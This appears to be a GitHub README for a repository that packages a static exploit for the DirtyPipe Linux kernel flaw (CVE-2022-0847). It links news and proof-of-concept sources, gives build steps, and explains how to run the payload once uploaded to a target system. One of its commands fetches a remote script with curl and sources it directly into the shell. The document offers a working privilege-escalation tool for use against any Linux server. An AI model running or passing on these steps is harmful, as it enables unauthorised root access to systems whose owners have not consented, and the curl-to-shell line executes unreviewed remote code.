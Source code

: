 # dirtypipe (CVE-2022-0847)

![screenshot](./files/dirtypipe.png)

## References: 
- [ArsTechnica article](https://arstechnica.com/information-technology/2022/03/linux-has-been-bitten-by-its-most-high-severity-vulnerability-in-years/)
- [Max Kellermann's article and PoC](https://dirtypipe.cm4all.com/)
- [Public exploit](https://haxx.in/files/dirtypipez.c)

## Objective

Build a static exploit that can be run on any Linux server.

## How to build

```bash
./build.sh
```

## How to use

Once uploaded on the target system:

```bash
source payload.sh
```

Or even easier:

```bash
source <(curl -s https://raw.githubusercontent.com/eric-glb/dirtypipe/main/payload.sh)
```

## `dirtypipez.c`

The source on this repo is a bit modified (log message) as the `payload.sh` takes care of removing the `/tmp/sh` file.
